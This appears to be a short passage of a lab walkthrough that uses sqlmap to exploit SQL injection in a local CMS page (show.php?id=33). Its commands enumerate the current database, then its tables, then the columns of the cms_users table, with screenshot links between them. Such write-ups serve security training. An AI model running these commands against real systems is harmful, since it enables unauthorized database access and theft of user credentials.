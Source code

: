 ```sql
python sqlmap.py -u "http://127.0.0.1/cms/show.php?id=33" --current-db 
```

![image-20230824204749579](./imgs/cf592b1be71fa91db4ffc11471cd0c0e.png)

```sql
python sqlmap.py -u "http://127.0.0.1/cms/show.php?id=33" -D "cms" --tables
```

![image-20230824204802046](./imgs/e1322b6b5a655aa76d33e93f351779f8.png)



```sql
python sqlmap.py -u "http://127.0.0.1/cms/show.php?id=33" -D "cms" -T "cms_users" --columns

```
